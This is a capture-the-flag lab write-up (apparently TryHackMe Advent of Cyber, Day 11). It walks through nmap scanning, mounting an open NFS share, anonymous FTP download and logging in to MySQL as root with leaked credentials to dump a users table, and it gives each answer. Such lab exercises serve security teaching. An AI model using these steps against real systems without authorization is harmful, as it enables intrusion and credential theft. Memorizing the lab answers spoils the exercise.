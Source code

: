 # [Day 11] Elf Applications

## Instructions

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out? 

Deploy the machine and starting scanning the IP. The machine may take a few minutes to boot up. 

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).


## #1 - What is the password inside the creds.txt file?

Let's start by scanning the machine.

~~~
$ sudo nmap -sS -sV -A 10.10.125.220
[sudo] password for unknown: 

Starting Nmap 7.60 ( https://nmap.org ) at 2020-05-02 10:38 PDT
Nmap scan report for 10.10.125.220
Host is up (0.045s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.35.106
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      20048/tcp  mountd
|   100005  1,2,3      20048/udp  mountd
|   100021  1,3,4      38543/tcp  nlockmgr
|   100021  1,3,4      50281/udp  nlockmgr
|   100024  1          43725/tcp  status
|   100024  1          50464/udp  status
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
3306/tcp open  mysql   MySQL 5.7.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.28
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: DontAllowDatabaseTableColumn, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, SupportsTransactions, SupportsLoadDataLocal, LongColumnFlag, SwitchToSSLAfterHandshake, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, LongPassword, SupportsCompression, ODBCClient, Speaks41ProtocolNew, InteractiveClient, Support41Auth, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: B_YW*W\x0B!g`r&ueM\x0B\x12\x07\x0B!
|_  Auth Plugin Name: 79
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=5/2%OT=21%CT=1%CU=30273%PV=Y%DS=2%DC=T%G=Y%TM=5EADB043
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)SEQ(SP=10
OS:6%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3
OS:=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=FF%W=6903%O=M508NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=FF%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD=S)

Network Distance: 2 hops
Service Info: OS: Unix

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   46.20 ms 10.9.0.1
2   45.19 ms 10.10.125.220

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
~~~

NFS is running on port 2049/tcp. Let's list the remote shares:

~~~
$ sudo apt install nfs-common
$ showmount -e 10.10.125.220
Export list for 10.10.125.220:
/opt/files *
~~~

Now, let's mount the remote share and dump the content of the remote file.

~~~
$ sudo mkdir /mnt/nfs
$ sudo mount -t nfs 10.10.125.220:/opt/files /mnt/nfs/
$ ls -l /mnt/nfs/
total 4
-rwxrwxrwx 1 unknown unknown 34 Dec 10 08:52 creds.txt
$ cat /mnt/nfs/creds.txt 
the password is securepassword123
~~~

Answer: `securepassword123`

## #2 - What is the name of the file running on port 21?

There is a FTP server running on default port 21/tcp, which allows anonymous connections. Listing the files, we find a file named `file.txt`, that we download using the `get` command:

~~~
$ ftp 10.10.125.220
Connected to 10.10.125.220.
220 (vsFTPd 3.0.2)
Name (10.10.125.220:unknown): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10 23:19 file.txt
drwxr-xr-x    2 0        0               6 Nov 04 08:50 pub
d-wx-wx--x    2 14       50              6 Nov 04 08:50 uploads
-rw-r--r--    1 0        0             224 Nov 04 08:46 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (624.3596 kB/s)
ftp> quit
221 Goodbye.
~~~

Answer: `file.txt`

## #3 - What is the password after enumerating the database?

The file we have downloaded discloses the credentials of the MySQL database:

~~~
$ cat file.txt 
remember to wipe mysql:
root
ff912ABD*
~~~

Let's connect to the MySQL database using the credentials gathered from the `file.txt` file we gathered via FTP:

~~~
$ mysql -h 10.10.125.220 -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
~~~

We are connected. Now let's list the databases:

~~~
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.07 sec)
~~~

Let's list the tables in the `data` database:

~~~
mysql> use data
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.04 sec)
~~~

Let's dump the content of the `USERS` table:

~~~
mysql> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.04 sec)
~~~

Answer: `bestpassword`
